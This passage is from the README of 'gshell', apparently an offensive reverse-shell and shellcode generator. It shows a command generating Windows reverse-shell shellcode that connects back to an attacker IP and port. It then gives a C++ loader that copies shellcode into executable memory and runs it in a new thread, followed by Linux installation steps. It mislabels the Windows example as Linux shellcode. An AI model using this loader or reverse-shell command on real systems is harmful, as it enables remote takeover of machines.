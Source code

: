 Here is an example of a linux shellcode:

```powershell
PS C:\gshell> python .\gshell.py -i 192.168.220.131 -p 4433 --shellcode --srev --windows
```

We could use the generated shellcode in another program or script:

```cpp
#include <windows.h>
#include <iostream>
#include <stdlib.h>
#include <stdio.h>

int main() {
    char shellcode[] = {"\x56\x48\x8B\xF4\x48\x83\xE4\xF0\x48\x83\xEC\x20\xE8\x05\x00........."
    };
    int shellcode_size = sizeof(shellcode);
    LPVOID exec_mem;

    exec_mem = VirtualAlloc(
        0,
        shellcode_size,
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE
        );

    RtlMoveMemory(exec_mem, shellcode, shellcode_size);
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec_mem, NULL, 0, NULL);
    Sleep(1000000);
    return 0;
}
```

Then compile the program and execute it:

```powershell
.\example.exe
```

# Installation in Linux

Clone or download the repository:

```sh
git clone https://github.com/nozerobit/gshell
```

Install the requirements:

```sh
python3 -m pip install -r gshell/requirements.txt
```

Add the tool to the `$PATH` environment variable:

```sh
sudo ln -s $(pwd)/gshell/gshell.py /usr/local/bin/gshell.py && chmod +x /usr/local/bin/gshell.py
```
